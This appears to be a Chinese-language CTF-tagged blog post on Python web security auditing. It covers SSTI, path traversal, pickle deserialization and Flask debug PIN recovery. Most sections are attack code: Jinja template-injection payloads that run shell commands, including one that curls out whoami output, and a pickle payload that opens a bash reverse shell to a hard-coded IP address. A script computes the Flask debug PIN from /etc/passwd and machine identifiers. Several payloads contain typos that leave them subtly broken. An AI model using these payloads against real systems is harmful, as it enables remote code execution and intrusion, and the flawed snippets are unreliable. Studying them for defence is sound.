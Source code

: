 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Python 代码审计与安全编码 # 标题
subtitle:   日就完事了               #副标题
date:       2018-08-08              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
  - Python
---
```


# Python 代码审计与安全编码

- Python 应用框架
  - Django
  - Flask
  - Tornado
  - Web.py

## Python Web 漏洞距举例

- Django debug page XSS 漏洞
- Django 1.6 版本前 seesion 反序列化任意代码执行
  - Django 1.6 以下，session 默认采用 picked
- ...

### Python(不单单是 Python) 的 Web 应用可能存在哪些问题？

- SQl 注入
- 模板注入 SSTI
- 格式化字符串
- 客户端 SESSION
- 路径穿越
- 反序列化
- Flask Debug Pin 码存在的安全风险

### Web 通用漏洞 在 Python

- Sql 注入
- XSS
- CSRF

- XXE
  - Python 解析 XML 存在 XXE 的函数： lxml 模块
  - 原因： libxml 2.9 以下默认导入外部实体， lxml 中默认
- SSRF
  - 重定向
    - pycurl 默认不跟随重定向， urllib/requests 跟随
  - 协议支持
    - urllib/urllib2/requests -> http/https/ftp
    - pycurl 一般都支持

## SSTI

- What is SSTI?
  - 服务器模板注入和常见的 Web 注入的成因一样，也是服务端接受了
- 从 MVC 开发模式说起
  - Model View Controller
- 模板注入是 Model 被用户控制
- 注入代码

```py

# 未过滤
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('ls').read()

# 过滤中括号[]
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

# 过滤引号''""
#  先获取 chr 函数，赋值给 chr， 后面拼接字符串
{% set chr=().__class__.bases__.getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__chr %}{{
  ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linescache.os.popen(chr(105)%2bchr(100)).read()
}}
# 借助 request 对象
{{
  ().__class__.bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() 
}}&cmd=id

# 过滤双下划线__
{{
  ''[request.args.class][request.args.mro][2][request.args.sbclasses]()[40]('etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__


# 过滤双大括号{{}}
{
  % if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://localhost?i=`whoami`').read()=='p' %
  }1{% endif %}

```

## 格式化字符串

![](https://github.com/Chris-Ju/Picture/blob/master/python%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E.png?raw=true)

## 客户端 SESSION

- Tornado session 格式(六部分)
  - 版本号
  - len(value) : value
  - key_version
  - 时间戳
  - cookie 的键
  - cookie 的值 (base64)
  - signature 的值

## 路径穿越

```py
@users.route('/asserts/<path:path>')
def static_handler(path):
  filename = os.path.join(app.root_path,'asserts',path)
  if os.path.isfile(filename):
      return send_file(filename)
  else:
      abort(404)

# curl localhost:8080/assert/..%2fuser.py
```

- 如何修复
  - os.path.join 换成 flask 提供的 safe_join
  - 过滤
  - 使用 static 目录存放静态文件

## 反序列化

```py
import os
import pickle

class test(object):
  def __reduce__(self):
    code='bash -c "bash -i >& /dev/tcp/118.89.20.188/12345 0<&1 2>&1"'
    return (os.system, (code,))
print pickle.dump(test())
```

- 其他序列化函数
  - yaml
  - shelve

## Flask Debug Pin

```py
  md5_list = [
    'root', #当前用户，可通过读取 /ect/passwd 获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    'usr/local/lib/python2.7/dist-packages/flask/app.pyc',#可通过debug错误页面获取
    'mac地址十进制', #通过读取/sys/class/net/eth0/address获取，如果不是映射端口，可以通过 arp ip命令获取
    '机器名' #通过读取/etc/machine-id(常为空) 或 /proc/sys/kernel/random/boot_id 获取
  ]
```

- 计算 pin 码

```py
# -*- coding:utf-8 -*-
import hashlib

def get_pin(md5_list):
  h = hashlib.md5()
  for bit in md5_list:
    if not bit:
      continue
    if isinstance(bit, unicode):
      bit = bit.encode('utf-8')
    h.update(bit)
  h.update(b'cookiesalt')
  h.update(b'pinsalt')
  num = ('%09d' % int(h.hexdigest(), 16))[:9]
  for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
      rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
        for x in range(0, len(num), group_size))
      break
  else:
    rv = num
  return rv
```